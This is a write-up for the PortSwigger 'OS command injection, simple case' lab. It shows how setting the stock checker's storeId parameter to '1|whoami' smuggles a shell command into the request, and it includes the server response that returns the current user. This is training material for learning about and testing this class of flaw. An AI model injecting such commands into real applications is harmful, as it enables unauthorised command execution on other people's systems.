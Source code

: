 # OS command injection, simple case

## Description

[This lab](https://portswigger.net/web-security/os-command-injection/lab-simple) contains an OS command injection vulnerability in the product stock checker: The application executes a shell command containing user-supplied product and store IDs, and returns the raw output from the command in its response. 

## Reproduction and proof of concept

1. Use Burp Suite to intercept and modify a request that checks the stock level. 
2. Modify the `storeID` parameter, giving it the value `1|whoami`. 

```text
productId=1&storeId=1|whoami
```

3. Observe that the response contains the name of the current user.

```text
HTTP/1.1 200 OK
Content-Type: text/plain; charset=utf-8
Connection: close
Content-Length: 13

peter-gmkX5d
```

## Exploitability

An attacker will need to execute the `whoami` command to determine the name of the current user.
